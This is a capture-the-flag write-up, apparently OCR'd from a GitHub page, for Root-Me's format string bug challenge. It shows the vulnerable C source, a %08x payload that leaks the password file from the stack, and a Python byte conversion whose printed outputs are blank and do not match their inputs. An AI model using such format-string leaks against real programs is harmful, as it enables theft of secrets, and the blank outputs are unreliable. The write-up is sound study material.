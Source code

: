 # ELF x86 - Format string bug basic 1

- Problem: https://www.root-me.org/en/Challenges/App-System/ELF-x86-Format-string-bug-basic-1

We can see the source code as follows.
```
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```

We can see that there is a formatstring bug in the printf(argv[1]) part.
```
app-systeme-ch5@challenge02:~$ ./ch5 %08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x
00000020-0804b160-0804853d-00000009-bffffc79-b7e1c589-bffffb24-b7fc4000-b7fc4000-0804b160-39617044-28293664-6d617045-bf000a64-0804861b

```
The guessed part of .passwd is:
39617044-28293664-6d617045-bf000a64-0804861b

We converted these bytes into string as follows.
```
Type "help", "copyright", "credits" or "license" for more information.
>>> a = "\x44\x70\x61\x39"
>>> str(a)
''

>>> b = "\x64\x36\x29\x28"
>>> str(b)
''

>>> c = "\x45\x70\x61\x6d"
>>> str(c)
''

>>> d = "\x64\x0a\x00\xbf"
>>> str(d)
''
```
